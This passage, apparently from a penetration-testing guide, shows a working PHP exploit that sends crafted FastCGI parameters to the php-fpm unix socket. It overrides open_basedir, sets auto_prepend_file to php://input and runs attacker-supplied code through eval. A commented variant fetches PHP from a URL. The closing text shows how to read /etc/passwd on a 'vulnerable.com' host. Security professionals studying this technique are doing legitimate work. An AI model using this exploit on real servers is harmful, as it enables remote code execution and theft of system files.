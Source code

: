 ```php
case self::REQUEST_COMPLETE:
return $response;
}
}
}
?>
<?php
// real exploit start here
if (!isset($_REQUEST['cmd'])) {
die("Check your input\n");
}
if (!isset($_REQUEST['filepath'])) {
$filepath = __FILE__;
}else{
$filepath = $_REQUEST['filepath'];
}
$req = '/'.basename($filepath);
$uri = $req .'?'.'command='.$_REQUEST['cmd'];
$client = new FCGIClient("unix:///var/run/php-fpm.sock", -1);
$code = "<?php eval(\$_REQUEST['command']);?>"; // php payload -- Doesnt do anything
$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = php://input";
//$php_value = "allow_url_include = On\nopen_basedir = /\nauto_prepend_file = http://127.0.0.1/e.php";
$params = array(
'GATEWAY_INTERFACE' => 'FastCGI/1.0',
'REQUEST_METHOD'    => 'POST',
'SCRIPT_FILENAME'   => $filepath,
'SCRIPT_NAME'       => $req,
'QUERY_STRING'      => 'command='.$_REQUEST['cmd'],
'REQUEST_URI'       => $uri,
'DOCUMENT_URI'      => $req,
#'DOCUMENT_ROOT'     => '/',
'PHP_VALUE'         => $php_value,
'SERVER_SOFTWARE'   => '80sec/wofeiwo',
'REMOTE_ADDR'       => '127.0.0.1',
'REMOTE_PORT'       => '9985',
'SERVER_ADDR'       => '127.0.0.1',
'SERVER_PORT'       => '80',
'SERVER_NAME'       => 'localhost',
'SERVER_PROTOCOL'   => 'HTTP/1.1',
'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>
```
**unix socket of php-fpm** (usually located in /var/run if fpm is used) to execute arbitrary code. The `open_basedir` settings will be overwritten by the **PHP\_VALUE** attribute that is sent.\
Note how `eval` is used to execute the PHP code you send inside the **cmd** parameter.\
Also note the **commented line 324**, you can uncomment it and the **payload will automatically connect to the given URL and execute the PHP code** contained there.\
Just access `http://vulnerable.com:1337/l.php?cmd=echo file_get_contents('/etc/passwd');` to get the content of the `/etc/passwd` file.
